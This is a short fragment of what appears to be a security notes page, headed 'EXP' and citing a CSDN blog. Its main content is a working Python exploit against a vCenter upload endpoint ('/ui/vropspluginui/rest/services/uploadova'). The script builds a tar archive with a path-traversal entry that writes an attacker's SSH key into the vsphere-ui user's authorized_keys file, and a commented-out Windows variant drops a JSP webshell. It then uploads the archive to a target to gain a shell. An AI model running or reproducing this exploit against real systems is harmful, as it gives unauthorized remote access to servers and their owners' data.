 ```python
    main()
```





## EXP

>https://blog.csdn.net/weixin_43650289/article/details/114055417

```python
import tarfile
import os
from io import BytesIO
import requests

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}
def return_zip():
    with tarfile.open("test.tar", 'w') as tar:
        payload = BytesIO()
        id_rsa_pub = 'ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAwgGuwNdSGHKvzHsHt7QImwwJ08Wa/+gHXOt+VwZTD23rLwCGVeYmfKObDY0uFfe2O4jr+sPamgA8As4LwdqtkadBPR+EzZB+PlS66RcVnUnDU4UdMhQjhyj/uv3pdtugugJpB9xaLdrUWwGoOLYA/djxD5hmojGdoYydBezsNhj2xXRyaoq3AZVqh1YLlhpwKnzhodk12a7/7EU+6Zj/ee5jktEwkBsVsDLTTWPpSnzK7r+kAHkbYx8fvO3Fk+9jlwadgbmhHJrpPr8gLEhwvrEnPcK1/j+QXvVkgy2cuYxl9GCUPv2wgZCN50f3wQlaJiektm2S9WkN5dLDdX+X4w=='
        # 针对Linux有效的方式
        tarinfo = tarfile.TarInfo(name='../../../home/vsphere-ui/.ssh/authorized_keys')
        # Windows 需要改一下
        #tarinfo = tarfile.TarInfo(name="..\\..\\ProgramData\\VMware\\vCenterServer\\data\\perfcharts\\tc-instance\\webapps\\statsreport\\test.jsp")

        f1 = BytesIO(id_rsa_pub.encode())
        tarinfo.size = len(f1.read())
        f1.seek(0)
        tar.addfile(tarinfo, fileobj=f1)
        tar.close()
        payload.seek(0)
def getshell(url):
    files = {'uploadFile':open('test.tar','rb')}
    try:
        r = requests.post(url=url, files=files,proxies=proxies,verify = False).text
        print(r)
        # windows下：
        #         print('shell地址:/statsreport/test.jsp')
    except:
        print('flase')

if __name__ == "__main__":
    try:
        return_zip()
        url="https://192.168.1.1/ui/vropspluginui/rest/services/uploadova"
        getshell(url)
    except IOError as e:
        raise e
```
